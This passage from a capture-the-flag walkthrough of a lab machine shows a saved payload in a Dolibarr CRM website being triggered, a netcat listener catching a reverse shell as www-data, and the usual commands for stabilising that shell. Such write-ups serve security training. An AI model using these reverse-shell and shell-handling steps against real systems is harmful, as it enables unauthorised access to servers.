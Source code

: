 After saving our payload we clicked on `Show dynamic content` to trigger it and to get a `reverse shell` as `www-data`.

![](images/2024-05-25_16-31_dolibarr_crm_website_payload_preparation.png)

```c
Show dynamic content[](http://crm.board.htb/website/index.php?website=foobar&pageid=2&action=setshowsubcontainers&token=ddc9c10da9bdba3d6f11393dbdb81571)
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.10.166] 58112
SOCKET: Shell has connected! PID: 1396
```

## Stabilizing Shell

```c
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@boardlight:~/html/crm.board.htb/htdocs/website$ 
www-data@boardlight:~/html/crm.board.htb/htdocs/website$ export XTERM=xterm
www-data@boardlight:~/html/crm.board.htb/htdocs/website$
```
